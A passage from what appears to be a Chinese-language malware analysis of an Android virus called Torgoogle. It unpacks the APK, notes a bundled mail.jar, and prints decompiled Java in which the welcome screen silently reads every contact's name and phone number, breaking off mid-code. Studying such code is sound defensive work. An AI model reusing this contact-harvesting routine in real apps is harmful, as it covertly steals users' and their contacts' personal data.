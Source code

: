 同样的步骤我们解压Trogoogle的那个apk，获得其源代码。

在Torgoogle中，我们发现了第三方jar包mail.jar，说明这位同学还是很有心学习的。

## 步步分析 ##
通过代码和软件行为来一步步的分解该病毒，以及解释一些该病毒中的不该出现的错误，也是为神马作者很快就会被警方抓获的原因。

首先我们观察代码的activity，发现在WlecomeAcitivity中有如下代码：

    :::java
	public void run()
      {
        WelcomeActivity.this.startActivity(new Intent(WelcomeActivity.this, MainActivity.class));
        WelcomeActivity.this.finish();
      }

很明显该activity就是入口的avitvity。

所以我们知道程序是这么运行的，welcome->main->点击注册button->register

然后我们开始分析代码：

> WlecomeActivity

程序开始就执行了`ReadCONTACTS()`这个方法，我们看看他在做什么

    :::java
	private void ReadCONTACTS(Context paramContext)
  	{
    this.contactArray = new ArrayList();
    this.context = paramContext;
    this.cursor = this.context.getContentResolver().query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
    new Thread()
    {
      public void run()
      {
        if (!WelcomeActivity.this.cursor.moveToNext())
        {
          if (WelcomeActivity.this.counts != 99);
        }
        else
        {
          String str = WelcomeActivity.this.cursor.getString(WelcomeActivity.this.cursor.getColumnIndex("_id"));
          WelcomeActivity.this.nameString = WelcomeActivity.this.cursor.getString(WelcomeActivity.this.cursor.getColumnIndex("display_name"));
          Cursor localCursor = WelcomeActivity.this.context.getContentResolver().query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = " + str, null, null);
          ArrayList localArrayList = new ArrayList();
          localArrayList.add("\r\n" + WelcomeActivity.this.nameString);
          while (true)
          {
            if (!localCursor.moveToNext())
            {
              label168: localCursor.close();
              WelcomeActivity.this.contactArray.add(localArrayList);
              break;
            }
            WelcomeActivity.this.phoneString = localCursor.getString(localCursor.getColumnIndex("data1"));
            WelcomeActivity.this.phoneString = WelcomeActivity.this.phoneString.replace(" ", "");
            WelcomeActivity.this.phoneString = WelcomeActivity.this.phoneString.replace("+86", "");
            try
            {
              if (WelcomeActivity.this.phoneString.length() == 11)
              {
                sleep(20L);